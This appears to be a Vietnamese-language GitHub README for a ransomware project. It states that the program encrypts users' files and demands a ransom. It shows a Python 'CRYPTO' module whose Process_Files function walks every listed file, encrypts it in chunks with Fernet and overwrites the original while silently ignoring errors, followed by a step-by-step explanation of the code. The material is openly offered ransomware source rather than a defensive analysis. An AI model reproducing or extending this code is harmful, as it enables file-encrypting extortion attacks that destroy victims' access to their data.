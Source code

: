 # RANSOMWARE
Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.

## MODULES
**1.CRYPTO**
```python
def Process_Files(Private: Fernet, mode: str):
    for _, files in List_Files().items():
        for file in files:
            temp_file = file + '.temp'
            try:
                with open(file, 'rb') as original_file, open(temp_file, 'wb', buffering=4096*1024) as temp_file:
                    with mmap.mmap(original_file.fileno(), 0, access=mmap.ACCESS_READ) as mm:
                        offset = 0
                        while offset < len(mm):
                            chunk = mm[offset:offset + 4096 * 1024]
                            if not chunk:
                                break
                            processed_chunk = Private.encrypt(chunk) if mode == 'encrypt' else Private.decrypt(chunk)
                            temp_file.write(processed_chunk)
                            offset += len(chunk)
                shutil.move(temp_file.name, file)
            except Exception as e: pass
            finally:
                if os.path.exists(temp_file.name):
                    os.remove(temp_file.name)
```
1.Hàm *Process_Files* nhận vào hai tham số: *Private*, một đối tượng *Fernet* được sử dụng để mã hóa và giải mã, và *mode*, một chuỗi chỉ định chế độ hoạt động (‘encrypt’ hoặc ‘decrypt’).

2.Hàm này sẽ duyệt qua tất cả các tệp tin được trả về bởi hàm *List_Files*.

3.Đối với mỗi tệp, nó tạo một tệp tạm thời với tên là tên tệp gốc kèm theo ‘.temp’.

4.Nó mở tệp gốc để đọc và tệp tạm thời để ghi, với kích thước bộ đệm là 4096*1024 byte. Sử dụng mmap để ánh xạ tệp gốc vào bộ nhớ. 
Sau đó đọc và xử lý từng ‘chunk’ của tệp gốc, với kích thước ‘chunk’ là 4096*1024 byte.

5.Mỗi ‘chunk’ sau đó được mã hóa (nếu mode là ‘encrypt’) hoặc giải mã (nếu mode là ‘decrypt’) bằng cách sử dụng đối tượng Fernet, và sau đó được ghi vào tệp tạm thời.

6.Khi tất cả các ‘chunk’ đã được xử lý, tệp tạm thời được đổi tên thành tên của tệp gốc, thay thế tệp gốc. Nếu có lỗi xảy ra trong quá trình này, hàm sẽ bỏ qua lỗi và tiếp tục với tệp tiếp theo. Cuối cùng, nếu tệp tạm thời vẫn tồn tại (ví dụ, do một lỗi xảy ra), nó sẽ được xóa.



```python
```
